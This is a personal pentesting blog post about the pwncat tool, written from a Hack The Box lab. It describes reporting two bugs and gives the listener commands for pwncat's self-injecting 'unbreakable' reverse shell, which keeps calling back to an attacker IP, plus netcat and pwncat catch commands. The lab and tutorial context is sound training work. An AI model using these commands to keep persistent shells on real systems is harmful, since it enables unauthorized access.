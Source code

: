 ```yaml
---
layout: post
author: dalemazza
title: Pwncat - Netcat on steroids!  
date: 2020-06-21
category: Blog
tags: Blog pwncat
---
```



## Do you hate when you Ctrl+c in a reverse shell and lose it? I did until I found Pwncat!  

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/pwncat.jpg">
</p>

Recently I was doing a machine on Hack the box, I managed to get a reverse shell on the machine but it was flaky and kept crashing on me. This got me thinking that surely someone somewhere has made a script to fix this problem?  

After some google fu I stumbled across this [github](https://github.com/cytopia/pwncat) repo. It had everything I had ever dreamed about in one tool! Some highlights include:  

* Port Scanning
* Self-injecting reverse shell
* Bind shell
* Reverse shell
* Port forwarding
* Protection from Ctrl+c !!!!!!
* Evade IPS and Firewall
* Plus much more!

I had to try this tool! So I cloned the repo and put it to the test. I quickly wanted to try the `--self-inject` function out. To my surprise it caught the reverse shell but did not work after after upgrading the shell to TTY.  
<p>&nbsp;</p>

## Bug 1  


During the process to upgrade the shell to TTY I found that the shell would crash after the last stage of returning to the shell with the command `fg`. I then approached the creator on github and entered the issue as a bug. The creator quickly resolved the issue, It was related to how the shell interpreted the “enter” after the `fg`. The bug was fixed, Now to try again!  
<p>&nbsp;</p>

## Bug 2  


Now I had a full TTY shell. I went back and tried to catch the shell again but with the `--self-inject` flag. After setting up the pwncat listener with the inject flag `pwncat -l 1234 --self-inject /bin/bash:10.10.14.28:1234` I quickly learnt that it was not injecting into a python binary. Once again I submitted this as a bug and he quickly solved the issue. This time it was related to the way the reverse shell sends back the shell, he had to change the way pwncat behaved to interpret many types of reverse shell. 1 day later he sent me a message saying he had a fix! Third times the charm.
<p>&nbsp;</p>
---
## How does it work?  
 
As the client (reverse shell) connects to the your host machine it does the following:  

1. Enumerate Python availability and versions on the target.
2. Dump itself base64 encoded onto the target.
3. Use the target’s Python to decode itself.
4. Use the target’s Python to start itself as an unbreakable reverse shell back to you .

Once this is done the client will constantly send back a reverse shell to the ip/port you specified in pwncat, So if you break the shell all you have to do is set up a listener of your choice and listen for the reverse shell. This is massive as most reverse shells rely on you running an exploit each time to spawn the shell, This way you only have to run the exploit once.  
<p>&nbsp;</p>
---

## Heres how to do it  

First you need a client with a reverse shell set up for your machine and port. Next you need to run this command:  
```bash
pwncat -l 1234 –self-inject /bin/bash:10.10.14.28:1234
```
The command breaks down into the following, pwncat listening on port 1234, running the inject flag, spawning a bash shell to the ip and port of your machine. It should like a little something like this.  

<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/pwncat1.png">
</p>
#### Fig 1. The result of injecting to a unbreakable shell
<p>&nbsp;</p>

Now your shell should be unbreakable! to test this press Ctrl+c , this should break the shell. Now all you have to do it run a listener here are some examples:
```bash
nc -lvnp 1234
pwncat -l 1234
```  
<p align="center">
  <img class="image" width="auto" height="auto" src="/assets/pwncat2.png">
</p>
#### Fig 2. Here I Ctrl+c out of the shell, Then use a simple listener to catch the shell again.
<p>&nbsp;</p>
You now have your shell back without re-running exploits or reverse shells! I hope this helps you out.
